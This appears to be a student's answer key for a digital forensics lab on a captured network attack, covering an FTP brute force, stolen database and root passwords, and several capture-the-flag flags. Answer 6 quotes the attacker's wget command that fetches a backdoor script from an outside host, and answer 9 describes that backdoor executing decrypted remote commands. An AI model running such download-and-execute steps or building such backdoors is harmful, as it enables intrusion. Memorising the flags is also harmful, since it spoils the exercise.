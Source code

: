 # 1:  What are the different protocols present in the captured traffic file?
- ICMP
- TCP
- FTP
- HTTP

# 2:  It appears that the attacker is attempting to brute force the user's FTP password. Can you find any evidence of a correct password, and if so, what is it?
PASS batman

# 3:  What additional information was the attacker able to extract from the user's FTP account?
creadentials.txt , bash history

# 4:  What actions did the attacker take with the information obtained from the user's FTP account?
The attacker got the database username and password:
username: myuser
password: P@ssw0rd123456!


# 5:  What's the root account password?
Password: 1amgr000000t!@#$
id
(flag{1_4m_gr00000t!})


# 6:  Can you identify the packet numbers in which the attacker exploited the Remote Code Execution vulnerability to gain access to the system? What was the exact payload used by the attacker?
wget https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%205/files/backdoor.py


# 7:  After gaining access to the system, what does the attacker seem to be doing?
The attacker is trying to start a shell session which spawn new shell process that's bin/bash.


# 8:  The attacker read a file from root's home directory. What was in that file?
File Name is : "gr00t.txt"
Content in the file : "Congrats on getting here. But that's not it, the real test starts now! ;)

Btw, here's your flag for this stage: flag{1_4m_gr00000t!}"


# 9:  The attacker downloaded a file inside root's home directory. What's the purpose of that file?
Downloaded file : backdoor.py
The program first asks for the username and password from the user as inputs, and upon successful login, it then asks for a message. The message is passed to a function which decrypts the message using a key "super_secret_key" and then the decrypted message is executed as a command.


# 10: What information was transmitted through the attacker's covertly established channel of communication?
flag{c0ngrats_1f_y0u_m4d3_1t_t1ll_h3r3_ch4mp} 
(The feeeelingggggggg <3333)
